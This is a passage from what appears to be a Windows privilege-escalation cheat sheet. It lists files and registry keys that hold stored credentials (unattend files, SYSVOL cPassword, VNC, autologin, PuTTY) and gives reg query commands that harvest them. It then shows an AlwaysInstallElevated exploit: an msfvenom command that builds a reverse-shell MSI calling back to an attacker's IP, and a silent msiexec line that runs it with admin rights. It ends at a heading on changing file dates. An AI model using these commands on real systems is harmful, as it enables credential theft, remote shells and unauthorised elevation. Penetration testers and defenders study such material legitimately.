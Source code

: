 &nbsp;&nbsp;&nbsp;&nbsp;<code>c:\sysprep\sysprep.xml</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>%WINDIR%\Panther\Unattend\Unattended.xml</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>%WINDIR%\Panther\Unattended.xml</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>sysvol policy files containing cPassword on a domain controller</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>%SYSTEMROOT%\SYSVOL\sysvol</code>
 
&nbsp;&nbsp;&nbsp;&nbsp;<code>Services\Services.xml: Element-Specific Attributes</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>Printers\Printers.xml: SharedPrinter Element</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>Drives\Drives.xml: Element-Specific Attributes</code>
 
&nbsp;&nbsp;&nbsp;&nbsp;<code>DataSources\DataSources.xml: Element-Specific Attributes</code>

~~~
VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
~~~

### Elevated software install
 
If the following registry keys contain "AlwaysInstallElevated" value 0x1, then any MSI run will run as admin. For exmaple: 

&nbsp;&nbsp;&nbsp;&nbsp;<code>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated</code> or

&nbsp;&nbsp;&nbsp;&nbsp;<code>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated</code>

then create an install package:

&nbsp;&nbsp;&nbsp;&nbsp;<code>msfvenom -p windows/x64/shell_reverse_tcp LHOST=Your_IP LPORT=Your_port -f msi -o shell.msi</code>

&nbsp;&nbsp;&nbsp;&nbsp;<code>msiexec /quiet /qn /i C:\Temp\shell.msi</code>

### Change dates on files
